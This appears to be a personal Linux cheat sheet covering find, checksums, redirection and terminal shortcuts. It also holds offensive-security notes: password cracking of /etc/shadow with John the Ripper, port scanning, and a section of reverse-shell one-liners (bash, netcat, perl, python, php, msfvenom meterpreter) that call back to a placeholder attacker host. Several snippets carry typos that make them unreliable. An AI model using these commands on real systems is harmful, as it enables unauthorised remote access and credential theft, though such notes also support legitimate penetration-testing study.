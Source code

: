 Linux
======

change default application
  - open file browser, such as **pcmanfm**, right click the file and select **open with**.
  - choose the program or shell command, then select some checkbox with label "always open this kind of file .."

zathura clipboard
  1. in viewer, :code:``set selection-clipboard clipboard``
  #. in ``~/.config/zathura/zathurarc`` or ``/etc/zathurarc`` add the above command


find
  1. `link <https://wangchujiang.com/linux-command/c/find.html>`_
  #. :code:`find . type f -size +10k`
  #. :code:`find . type f -atime -7`
  #. :code:`find . -maxdepth 3 -type f`
  #. :code:`find . -mindepth 2 -type f`
  #. :code:`find /home -name "*.txt" -o -name "*.pdf"`
  #. :code:`find . -regex ".*\(\.txt\|\.pdf\)$"`
  #. :code:`find . -type f -name "*.txt" -delete`
  #. :code:`find . -type f -perm 777`
  #. :code:`find . -type f -user root -exec chown tom {} \;`
  #. :code:`find . -type f -mtime +30 -name "*.log" -exec cp {} old \;`
  #. :code:`find . -name "*.java"|xargs cat | gerp -v ^$|wc -l`


John the Ripper
  1. unshadow /etc/passwd /etc/shadow > test_passwd
  #. john --word-list=path_to_wordlist test_passwd


arp -l


nmap
  1. nmap -Pn -p22,80,111,49780 -A -oN nmap.txt IP
  #. nmap -v -sV IP/sub_net


masscan
  1. :code:`masscan -p1-65535,U:1-65535 IP --rate=1000`


checksum
  1. :code:`echo 'hello world' | md5sum -`
  #. :code:`echo 'hello world' | sha256sum -`
  #. :code:`echo 'hello world' | sha512sum -`


redirect input/output
  1. :code:`cmd >&n` send output to file descriptor n
  1. :code:`cmd m>&n` send file descriptor m to file descriptor n
  #. :code:`cmd > file 2>1` redirect stderr to stdout, then redict both to file.
  #. :code:`cmd &> file` redirect stderr and stdout to file
  #. :code:`cmd >& file` redirect stderr and stdout to file
  #. :code:`cmd >& file 0>&1` redicrect stderr, stdout, stdin to file


sudo
  1. :code:`echo password | sudo -S comamnd`


reverse shell
  1. bash

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`bash -i >& /dev/tcp/attack_ip/attack_port 0>&1` 

  #. telnet

     - attacker: :code:`nc -nvlp 4444; nc -nvlp 5555`
     - target: :code:`telnet attack_ip 4444 | /bin/bash | telnet attack_ip 5555`

  #. netcat

     - attacker: :codee:`nc -nvlp 4444`
     - target: :code:`nc -v attack_ip 4444 -e /bin/bash`

  #. perl

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`perl -e 'use Socket;$i="attack_ip";$p=4444;socket(S,PF_INET,SOCK_STEAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">$S");exec("/bin/bash -i");};'`

  #. python

    - attacker: :code:`nc -nvlp 4444`
    - target: :code:`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect("attacker_ip",attacker_port);os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i]);'`

  #. php

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`php -r '$sock=fsockopen("attack_ip", attack_port);exec("/bin/bash -i <&3 >&3 2>&3");'`

  #. msf

     - php: :code:`msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f raw > /root/shell.php`
     - windows: :code:`msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f exe > /root/hacker.exe`
     - linux: :code:`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f elf > /root/shell`
     - attacker 

       - :code:`use exploit/multi/handler`
       - :code:`set payload windows/meterpreter/reverse_tcp`
       - :code:`set LHOST attacker_ip`
       - :code:`set LPORT attacker_port`
       - :code:`run # or exploit`

  #. exec

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`exec 5<>/dev/tcp/attacker_ip/attacker_port; cat <&5 | while read line; do $line 2>&5 >&5; done`

terminal shorthand
  - `C-u`: cut from cursor to line head
  - `C-k`: cut from cursor to line end
  - `C-w`: cut from cursor to word head
  - `A-d`: cut from cursor to word end
  - `C-y`: paste the content that was cut before
  - `C-a`: move cursor to line head
  - `C-e`: move cursor to line end
  - `C-b/C-f`: move cursor backword/forword a character
  - `A-b/A-f`: move cursor backword/forword a word
